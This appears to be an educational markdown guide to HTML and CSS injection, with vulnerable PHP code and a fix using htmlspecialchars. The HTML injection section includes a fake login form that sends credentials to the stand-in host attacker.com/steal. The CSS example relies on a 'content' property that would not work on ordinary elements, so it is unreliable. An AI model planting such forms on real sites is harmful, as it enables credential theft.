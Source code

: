 # Vulnerabilities

## htmli

##### description  
HTML Injection (HTMLi) is a vulnerability that occurs when an attacker is able to inject HTML code into a web page by exploiting a weakness in the input validation process. This can happen, for example, if a web application does not properly validate user input or if it allows users to submit data that includes HTML tags that can be executed on the page.  
  
Let's say there is a vulnerable web page that allows users to submit comments, which are then displayed on the page without proper validation. An attacker could submit a comment that includes a ```<form>``` tag that is used to collect sensitive information from users, such as their login credentials.  

##### example  
Here is an example of what the injected HTML code might look like:  
```html
<p>Thank you for visiting our website. Please login to continue:</p>
<form method="post" action="http://attacker.com/steal">
  <label>Username:</label>
  <input type="text" name="username"><br>
  <label>Password:</label>
  <input type="password" name="password"><br>
  <input type="submit" value="Login">
</form>
```

In this example, the attacker has injected a ```<form>``` tag that looks like a legitimate login form. The form is set up to submit the entered username and password to the attacker's website (http://attacker.com/steal) when the user clicks the "Login" button.  

When the user views the page and enters their login credentials, they will unknowingly submit them to the attacker's website instead of the legitimate website. The attacker can then use the stolen credentials to access the victim's account and carry out further attacks.  

##### code of vulnerability
Example of vulnerable code:  
```php
<?php
  $comment = $_POST['comment'];
  echo "<p>You entered the following comment:</p>";
  echo "<p>$comment</p>";
?>
```
In this code, the value of the ```$_POST['comment']``` variable is directly printed onto the page without being properly validated or filtered. This means that an attacker can inject any HTML code they want into the page by submitting a comment that includes HTML tags.  
  
##### fix 
To fix this vulnerability, we need to properly validate and filter the user input before printing it onto the page. Here's an example of how we can do this:  
```php
<?php
  $comment = $_POST['comment'];
  $filtered_comment = htmlspecialchars($comment, ENT_QUOTES, 'UTF-8');
  echo "<p>You entered the following comment:</p>";
  echo "<p>$filtered_comment</p>";
?>
```

In this updated code, we use the ```htmlspecialchars``` function to filter out any HTML tags and special characters that could be used to inject malicious code. The ```ENT_QUOTES``` flag is used to ensure that both single and double quotes are properly escaped, and the ```'UTF-8'``` parameter specifies the character encoding to use. This helps prevent HTML injection and other types of code injection attacks.

## cssi

##### description  
CSSI or CSS Injection is a type of attack that involves injecting malicious CSS code into a website or web application. CSS is responsible for the layout and styling of a website. By injecting malicious CSS code, an attacker can modify the appearance and behavior of a website, potentially compromising the security and privacy of users.  

Let's say there's a website that allows users to submit comments on articles. The website displays the comments in a section below the article, with each comment being represented by an HTML element.  
  
Here is an example of the webpage:
```html
<div class="comment">
  <p class="username">Username</p>
  <p class="message">Comment message</p>
</div>
```

An attacker could use CSS injection to modify the appearance of the comments section by injecting malicious CSS code into the comment submission form. For example, they could inject the following CSS code:
```css
.comment {
  display: none;
}

/* The following rule will only target the attacker's comment */
.comment:last-child {
  display: block;
}

.comment:last-child .username {
  content: "Hacker";
}

.comment:last-child .message {
  content: attr(data-comment);
}
```

This code would hide all comments on the page, except for the attacker's comment, which would be displayed with a modified username and message. The message would be set using the "data-comment" attribute of the comment element, which would be populated with the user's input. In this way, the attacker could inject arbitrary comments into the website and potentially trick users into clicking on malicious links or divulging personal information.

To prevent CSS injection attacks like this, web developers should implement input validation and sanitization techniques to prevent untrusted data from being processed and displayed on the website. Additionally, website owners should educate their users on safe browsing practices and encourage them to report suspicious behavior.
